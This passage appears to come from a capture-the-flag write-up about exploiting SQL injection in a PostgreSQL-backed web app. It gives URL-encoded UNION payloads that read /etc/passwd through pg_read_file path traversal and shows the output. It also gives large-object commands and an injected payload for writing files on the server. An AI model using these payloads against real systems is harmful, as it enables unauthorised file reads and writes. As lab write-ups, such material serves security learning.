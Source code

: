 There wasn't any creds or anything of interest...

Ok, so can we path traverse?
```
users"%20UNION%20SELECT%20null,null,pg_read_file('./../../../../../../etc/passwd')--
```

```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin
postgres:x:70:70:PostgreSQL user:/var/lib/postgresql:/bin/sh
```

Yes we can! Ok, can we just read the flag?

```
users"%20UNION%20SELECT%20null,null,pg_read_file('./../../../../../../root/flag')--
```

```json
{"success":false,"message":"Error fetching table data."}
```

No, we can't. Unfortunately `postgres` uses its own user without perms to `/root` :&lt;

So we can read files but not a lot to read...

## SQLi File Write

Seems we can also write files (thanks PayloadAllTheThings):
```sql
SELECT lo_from_bytea(43210, 'your file data goes in here'); -- create a large object with OID 43210 and some data
SELECT lo_put(43210, 20, 'some other data'); -- append data to a large object at offset 20
SELECT lo_export(43210, '/tmp/testexport'); -- export data to /tmp/testexport
```

I had some trouble doing this and got some help from a blog post (which we will be talking about soon) but we can do file write like this:
```
users"%20UNION%20SELECT%20null,null,CAST((SELECT%20lo_from_bytea(133333,'test'))%20AS%20text)--
```
